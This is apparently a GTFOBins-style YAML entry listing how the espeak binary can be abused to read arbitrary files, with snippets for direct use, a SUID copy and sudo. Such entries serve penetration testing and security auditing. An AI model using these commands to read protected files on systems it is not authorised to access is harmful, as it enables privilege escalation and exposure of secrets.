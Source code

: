 ```yaml
---
description: The file content appears in the middle of other textual information, thus it might not be suitable to read arbitray binary files.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        espeak -qXf "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./espeak -qXf "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo espeak -qXf "$LFILE"
---
```

